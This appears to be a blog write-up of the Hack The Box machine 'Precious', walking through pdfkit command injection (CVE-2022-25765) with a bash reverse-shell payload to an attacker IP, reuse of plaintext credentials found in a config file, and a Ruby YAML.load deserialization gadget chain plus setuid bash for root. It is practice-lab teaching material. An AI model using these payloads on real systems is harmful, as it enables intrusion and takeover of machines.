 ```yaml
---
layout: post
title: "HTB: Precious"
author: Andrew Cherney
date: 2023-05-21 08:20:27
tags: htb easy-box linux webapp deserialization 
icon: "assets/icons/precious.png"
post_description: "We start this machine by exploiting a command injection of a ruby package to gain a foothold, and escalate that to user with hard coded credentials. For root a simple ruby script exploitation of a load() function will do the trick."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h1>Enumeration</h1>

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Precious]
└──╼ $nmap -Pn 10.10.11.189
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-24 19:54 CST
Nmap scan report for 10.10.11.189
Host is up (0.051s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

I'll add <code>10.10.11.189 precious.htb</code> to my **/etc/hosts** file.

<h2>Port 80 - http</h2>

![Web Page to PDF](/img/precious/Precious_webpage_to_pdf.png)

The webpage takes a url and returns the pdf of that page. I tried fuzzing the parameters but it is very fussy about if it is a url, and will return a blank pdf if any escape characters are used. I tried looking into the request itself but there wasn't anything special. I did however look into exiftool on the returned pdf and found something noteworthy.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/Downloads]
└──╼ $exiftool lqe0xeipshi2qi6xl6ul6w69mddf81an.pdf 
ExifTool Version Number         : 12.16
File Name                       : lqe0xeipshi2qi6xl6ul6w69mddf81an.pdf
Directory                       : .
File Size                       : 4.5 KiB
File Modification Date/Time     : 2023:02:24 20:44:32-06:00
File Access Date/Time           : 2023:02:24 20:44:32-06:00
File Inode Change Date/Time     : 2023:02:24 20:44:32-06:00
File Permissions                : rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

<h1>Shell as ruby</h1>

<h2>pdfkit v0.8.6</h2>

Ladies and gentlemen we have what generated this, and would you believe that pdfkit v0.8.6 is vulnerable to CVE-2022-25765. With **?name=%20`** you can run arbitrary code past the grave. From an in-depth analysis of the CVE: **If the provided parameter happens to contain a URL encoded character and a shell command substitution string, it will be included in the command that PDFKit executes to render the PDF**. Below is the payload I can toss into the webpage to gain a shell:

```
http://?name=%20`bash -c 'bash -i >& /dev/tcp/10.10.14.14/7777 0>&1'`
```

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Precious]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.189] 43208
bash: cannot set terminal process group (677): Inappropriate ioctl for device
bash: no job control in this shell
ruby@precious:/var/www/pdfapp$
```

I added an ssh key for future reconnection and a better shell. 

<h1>User as henry</h1>

In the ruby home directory I find another directory, which looking inside I see what looks like henry's credentials.

```bash
ruby@precious:~$ cd .bundle
ruby@precious:~/.bundle$ ls
config
ruby@precious:~/.bundle$ cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
ruby@precious:~/.bundle$ 
```

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Precious]
└──╼ $ssh henry@precious.htb
henry@precious.htb's password: 
Linux precious 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
henry@precious:~$ cat user.txt
1969b57ae399e77-----------------
```

<h1>Root</h1>

```bash
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Looks to be a custom script to verify dependency versions written in ruby. I do some digging and find [that the yaml.load() function has been vulnerable for a long time to RCE](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/). I make my payload and run the exploit.

```bash
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

The command that this exploit runs is after the git_set parameter. When yaml.load() accepts user input you can require a dependency that escapes to the system method within the kernel and run commands. It's out of the scope of my writeups but [SafeYAML](https://danieltao.com/safe_yaml/) is apparently the recommended fix.

```bash
henry@precious:~$ sudo ruby /opt/update_dependencies.rb 
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
	33: from /opt/update_dependencies.rb:17:in `<main>'
	32: from /opt/update_dependencies.rb:10:in `list_from_file'
	31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
	30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
	29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	28: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	27: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	26: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:313:in `visit_Psych_Nodes_Document'
    ...
    ...
```

Bingo, RCE. I'll change id to **chmod u+s /bin/bash** and gain a root shell.

```bash
henry@precious:~$ /bin/bash -p
bash-5.1# cat /root/root.txt
bea16d93eba8a559----------------
```



